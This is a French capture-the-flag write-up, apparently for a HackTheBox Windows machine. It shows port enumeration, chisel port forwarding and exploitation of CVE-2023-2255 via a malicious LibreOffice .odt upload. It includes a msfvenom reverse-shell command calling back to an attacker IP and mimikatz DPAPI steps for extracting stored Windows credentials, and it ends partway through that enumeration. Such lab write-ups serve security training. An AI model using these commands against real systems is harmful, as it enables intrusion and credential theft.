 ![[int-code.png]]

Regarder les ports TCP ouverts en local

`netstat -ano -p tcp`

![[int-8083.png]]

On peut voir plusieurs ports en écoute dont le 8083 qui semble intéressant, c'est le PID 4304. On peut voir qu'il est lié aussi aux ports 443 et 80.

Obtenir plus de détails sur le processus en question.

`tasklist /FI "PID eq 4304"`

![[int-4304.png]]
Il s'agit bien d'un service web, la prochaine étape est de setup ce qu'il faut pour réaliser un local port forwarding avec un outil comme chisel par exemple.

![[chisel.png]]

On retrouve un autre site disponible sur le port 8083 forward

![[8083-site.png]]

On peut upload des fichiers qui font référence à la CVE-2023-2255 et libreoffice. Elweth a créer un POC en python pour créer le fichier vulnérable.

On commence par créer un reverse shell avec une extension .exe avec msfvenom et à l'aide du [script](https://github.com/elweth-sec/CVE-2023-2255) avec on lance l'exploit en précisant les commandes `C:\Users\Public\rev.exe` pour exécuter notre shell.exe

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=9001 -f exe > rev.exe
python3 CVE-2023-2255.py --cmd 'C:\Users\Public\rev.exe' --output 'exploit.odt'
```

Puis on ouvre un listener sur le port 9001, on dépose le fichier .exe dans `C:\Users\Public\` et on upload le fichier .odt par la fonctionnalité de file upload.

![[resume-ppots.png]]

On obtient un shell en tant que `office\ppotts` sur DC.
## Pivot latéral - HHogan

1) Enumérer les fichiers dans `C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\`
2) Dans mimikatz.exe, lister le contenu des fichiers credentials, pour récupérer et noter les guidMaster Key

`dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\XXXXX`

3) Enumérer les répertoires sous `C:\Users\PPotts\appdata\roaming\microsoft\protect\`
4) Récupérer le SID et poursuivre l'énumération dans 
 
`C:\Users\PPotts\appdata\roaming\microsoft\protect\<SID>`
